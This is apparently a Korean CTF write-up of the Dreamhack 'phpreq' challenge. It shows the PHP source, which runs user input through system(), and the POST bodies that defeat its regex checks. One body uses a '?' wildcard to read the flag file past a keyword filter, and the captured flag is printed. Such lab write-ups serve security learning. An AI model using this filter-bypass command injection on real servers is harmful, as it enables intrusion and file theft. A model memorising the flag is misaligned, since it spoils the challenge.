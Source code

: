 ## phpreq

> 문제 URL: https://dreamhack.io/wargame/challenges/873  
> php로 작성된 페이지입니다. 알맞은 Nickname과 Password를 입력하면 Step 2로 넘어갈 수 있습니다. Step 2에서 system() 함수를 이용하여 플래그를 획득하세요. 플래그는 ../dream/flag.txt에 위치합니다.

### Solve

1. php에서 ID/PW 매칭하는 코드

```php
<?php
    // POST request
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
      $input_name = $_POST["input1"] ? $_POST["input1"] : "";
      $input_pw = $_POST["input2"] ? $_POST["input2"] : "";
      // pw filtering
      if (preg_match("/[a-zA-Z]/", $input_pw)) {
        echo "alphabet in the pw :(";
      }
      else{
        $name = preg_replace("/nyang/i", "", $input_name);
        $pw = preg_replace("/\d*\@\d{2,3}(31)+[^0-8\"]\!/", "d4y0r50ng", $input_pw);

        if ($name === "dnyang0310" && $pw === "d4y0r50ng+1+13") {
          echo '<h4>Step 2 : Almost done...</h4><div class="door_box"><div class="door_black"></div><div class="door"><div class="door_cir"></div></div></div>';
          $cmd = $_POST["cmd"] ? $_POST["cmd"] : "";
          if ($cmd === "") {
            echo '
                  <p><form method="post" action="/step2.php">
                      <input type="hidden" name="input1" value="'.$input_name.'">
                      <input type="hidden" name="input2" value="'.$input_pw.'">
                      <input type="text" placeholder="Command" name="cmd">
                      <input type="submit" value="제출"><br/><br/>
                  </form></p>
            ';
          }
          // cmd filtering
          else if (preg_match("/flag/i", $cmd)) {
            echo "<pre>Error!</pre>";
          }
          else{
            echo "<pre>--Output--\n";
            system($cmd);
            echo "</pre>";
          }
        }
        else{
          echo "Wrong nickname or pw";
        }
      }
    }
    // GET request
    else{
      echo "Not GET request";
    }
?>
```

2. input 과정에서 정규식을 고려해서 body로 넘겨주는 데이터, `fiddler composer` 활용

```bash
input1=dnyanyangng0310&input2=123@12331319!%2B1%2B13&cmd=cat%20%2E%2E%2Fdream%2Fflag%2Etxt
```

3. 2번 방법으로 하면 `flag` 문자열 필터링 하는 곳에서 막힘, 그래서 리눅스의 wildcard 문자(`?`) 활용해서 `ls`의 결과를 cat

```bash
input1=dnyanyangng0310&input2=123@12331319!%2B1%2B13&cmd=cat%20%2E%2E%2Fdream%2Ffla%3F.txt
```

4. response 결과로부터 flag 획득

```html
<pre>
--Output-- DH{ad866c64dabaf30136e22d3de2980d24c4da617b9d706f81d10a1bc97d0ab6f6}</pre
>
```

